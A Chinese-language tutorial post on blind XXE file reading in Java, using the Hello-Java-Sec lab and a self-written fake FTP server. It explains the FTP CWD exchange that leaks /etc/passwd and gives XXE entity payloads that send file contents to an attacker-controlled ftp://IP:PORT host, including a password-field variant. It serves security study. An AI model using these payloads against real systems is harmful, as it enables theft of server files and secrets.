



本篇文章仅用于技术交流学习和研究的目的，严禁使用文章中的技术用于非法目的和破坏。
关于盲XXE的文件读取
盲XXE想要读取文件一般来说需要外带。但是如果文件中包含换行等特殊字符，直接http外带，会报无效url错误。
在php环境下，可以直接使用php伪协议中的filter进行编码转换，就不会报错了。
但在java环境下或者禁用filter的情况下，可以尝试用ftp://协议外带。
环境
这里使用的环境是Hello-Java-Sec的靶场环境
https://github.com/j3ers3/Hello-Java-Sec/
- jdk8
- 漏洞代码：
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
DocumentBuilder builder = factory.newDocumentBuilder();
// 这里其实有回显，偷懒不改代码了，假装看不见。
原理
使用ftp://协议可以带出带有换行的数据。
（可利用版本：jdk<7u141和jdk<8u162，高于这两个版本ftp://协议也不能用了。）
正常的ftp服务器不能满足我们的需要，但我从网上找到的模拟ftp服务器都不能用（也可能是我不会用），于是就自己写了一个。
链接：https://github.com/zoiltin/fake-ftp-server
写脚本之前，先了解一下调用ftp://协议是发生了什么。通过读取/etc/passwd为例，payload：ftp://ip:port/{data}数据交互如下：

蓝色的为fake-ftp-server。
建立连接和确定模式后，服务器开始发送CWD指令，因为在/etc/passwd中有许多/将数据分割为许多目录，所以服务器一直尝试切换目录。我们要做的就是接受并不断返回250 Directory successfully changed.让服务器一直传数据。

在最后一个/后的数据，服务器将其视为要下载的文件名，请求用被动模式下载数据，从流量中可见，攻击者开启63568端口并告诉服务器，当服务器连接63568端口后，即向我们发送了要下载的文件名也就是最后一段数据。
ftp://协议比较简单，脚本很容易实现。
用法
payload:
<!ENTITY % file SYSTEM "file://">
<!ENTITY % int "<!ENTITY % send SYSTEM 'ftp://IP:PORT/%file;'>">
简单的用法：
ftp://IP:PORT/%file;
或者全用CWD读取：
ftp://IP:PORT/%file;/
数据中不能包含%和#，如果有'或"需要调整evil.dtd中包裹ftp://的引号类型，不然会报错。?和#会导致数据截断。
在高版本也可以十分有限的利用：
ftp://username:%file;@IP:PORT/asdasd
将数据从密码处传递，只能读一行
如果文件有多行会报错，回显一部分。 